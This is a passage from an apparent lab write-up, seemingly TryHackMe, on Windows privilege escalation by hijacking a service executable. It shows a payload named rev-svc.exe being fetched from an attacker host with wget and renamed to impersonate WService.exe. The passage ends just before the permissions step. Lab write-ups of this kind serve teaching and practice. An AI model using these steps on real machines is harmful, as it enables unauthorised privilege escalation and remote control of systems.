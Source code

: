 Then upload it on the target machine. On attacker : 

```console
Python3 http.server
```
{: .nolineno }

On target we can retreive the executable and move it on the right place by changing its name to impersonate the original service executable :

```console
C:\Users\thm-unpriv>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm-unpriv\Desktop> ls


    Directory: C:\Users\thm-unpriv\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/4/2022   8:15 AM           1387 ProcessHacker.lnk


PS C:\Users\thm-unpriv\Desktop> wget http://10.10.58.45:8000/rev-svc.exe -O rev-svc.exe
PS C:\Users\thm-unpriv\Desktop> ls


    Directory: C:\Users\thm-unpriv\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/4/2022   8:15 AM           1387 ProcessHacker.lnk
-a----         9/3/2022  12:35 PM          48640 rev-svc.exe


PS C:\Users\thm-unpriv\Desktop> move C:\PROGRA~2\SYSTEM~1\WService.exe C:\PROGRA~2\SYSTEM~1\WService.exe.bkp
PS C:\Users\thm-unpriv\Desktop> move .\rev-svc.exe C:\PROGRA~2\SYSTEM~1\WService.exe
PS C:\Users\thm-unpriv\Desktop> ls C:\PROGRA~2\SYSTEM~1\ | findstr "rev"
-a----         9/3/2022  12:35 PM          48640 rev-svc.exe
PS C:\Users\thm-unpriv\Desktop> move C:\PROGRA~2\SYSTEM~1\rev-svc.exe C:\PROGRA~2\SYSTEM~1\Wservice.exe
PS C:\Users\thm-unpriv\Desktop> ls C:\PROGRA~2\SYSTEM~1\ | findstr "Wservice"
-a----         9/3/2022  12:35 PM          48640 Wservice.exe
```
{: .nolineno }

We can grant full permission for everyone :
